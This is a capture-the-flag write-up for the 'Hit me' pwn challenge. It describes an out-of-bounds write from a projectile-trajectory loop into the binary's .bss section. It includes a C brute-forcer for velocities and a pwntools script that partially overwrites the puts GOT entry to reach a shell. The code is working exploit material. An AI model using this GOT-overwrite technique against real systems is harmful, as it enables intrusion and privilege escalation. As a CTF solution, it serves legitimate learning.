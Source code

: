 # Hit me Feedback
Super cool challenge, and I think super fitting for the finals.

I noted that the `battlefield` data is in the `.bss` section. We can go easily out of bounds with a bug trajactory, but only in positive values. E.g. `x-vel = 0.0000001` and `y-vel = 1000000` causes a big OOB. The loop is terminated on the following condition:
```c
x = (int)(velocity_x * t);
y = start_y + (int)(velocity_y * t - G_2 * t * t);

// ...
if (x < WIDTH && y < HEIGHT) {
    battlefield[y * WIDTH + x] = projectile;
}
// ...
if (x > target_x || y < target_y) {
      return 0;
    }
```
Hence we exit the loop if `x > target_x` or `y < target_y`, where y is often close to 0. If we shoot up in the sky and fall down rapidly, we eventually get negative y values, but only **once** (then `y is definitly < target_y` and we leave the loop). Hence we can provide a one byte overwrite on "close" enough memory OOB in negative values!

The distance between `battlefield` and the `puts.got.plt` is -0x110 bytes. If we set `y = -5` and `x = 48`, we access the LSB of the `puts.got.plt`. With `x = 49` we access the second LSB.

I bruteforced values for x_velocity and y_velocity such that those conditions are fullfilled. We have to get a target with x >= 49, but thats often enough the case and we have 10 attemps. Bruteforce code:
```
c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define WIDTH 64
#define HEIGHT 16

const int start_y = HEIGHT / 2;
const double G_2 = 9.81 / 2.0;
const double TSCALE = 0.005;


int main() {
    for (int i = 20000; i < 100000; i++) {
        //for (double j = 0; j < 5; j += 0.01f) { // this loop was not needed in the end
            int x = 0;
            int y = start_y;
            double velocity_x = 0.01f;
            double velocity_y = (float)i;

            int target_x = 50;
            int target_y = 1;

            for (int ti = 0;; ti++) {
                double t = ti * TSCALE;
                x = (int)(velocity_x * t);
                y = start_y + (int)(velocity_y * t - G_2 * t * t);

                if (x < WIDTH && y < HEIGHT) {
                    
                }   

                if (x == target_x && y == target_y) {
                return 1;
                } else if (x > target_x || y < target_y) {
                    if (y == -5) {
                        printf("Exit loop with with last y: %d x: %d Velocity X: %lf Velocity Y: %lf\n", y, x, velocity_x, velocity_y);
                    }
                    break;
                }
           // }
        }
    }
    

}
```

We can hardcode those velocities and overwrite the two LSBs of the `puts.got.plt` precicely. Since `puts` hasn't been called yet, it points to the resolver function inside the binary and we can overwrite the 2 LSBs to point to `dont_mind_me`. After all its a 1/16 ASLR bruteforce, but thats fine...

## Solution:
Has to run multiple times, since we have to hit an 1/16 ASLR (12bit nibble is static, 4bit is random). If it stops a shell has been spawned

```python
from pwn import *


for i in range(0, 100):
    p = process("ncat --ssl 6dda62cc1456a086245d2640-hit-me.challenge.master.cscg.live 31337", shell=True)
    #p = remote("127.0.0.1", 1024)

    try:
        stage = 1
        for i in range(0, 10):
            p.recvuntil(b"Your target is at ")
            x_target = int(p.recvuntil(b", ")[:-2])
            y_target = int(p.recvuntil(b"\n")[:-1])

            log.debug(f"X target: {x_target} y_target: {y_target}")

            if (stage == 3):
                p.sendlineafter(b"Choose your projectile:", b"A")
                p.sendlineafter(b"]>", b"H")
                p.sendline("whoami")
                recved = p.recvuntil("root", timeout=1)

                if (b"root" in recved): # we got a shell \o/
                    p.interactive() # spawn shell
                else:
                    log.warning("Failed :/")
                    break

            if x_target >= 49: # good for OOB write
                log.success(f"Good target found in try: {i}!")
                if stage == 1: # overwrite first byte to dont_mind_me
                    stage = 2
                    p.sendlineafter(b"Choose your projectile:", b"\xA0") # 0xA0
                    p.sendlineafter(b"]>", b"X 0.010000")
                    p.sendlineafter(b"]>", b"Y 23944.000000")
                    p.sendlineafter(b"]>", b"F")

                elif (stage == 2):
                    stage = 3
                    p.sendlineafter(b"Choose your projectile:", b"\x27") # 0x20
                    p.sendlineafter(b"]>", b"X 0.010000")
                    p.sendlineafter(b"]>", b"Y 24197.000000")
                    p.sendlineafter(b"]>", b"F")

            else:
                p.sendlineafter(b"Choose your projectile:", b"A")
                p.sendlineafter(b"]>", b"X 10")
                p.sendlineafter(b"]>", b"Y 10")
                p.sendlineafter(b"]>", b"F")
    except Exception as e:
        print(e)
        pass

```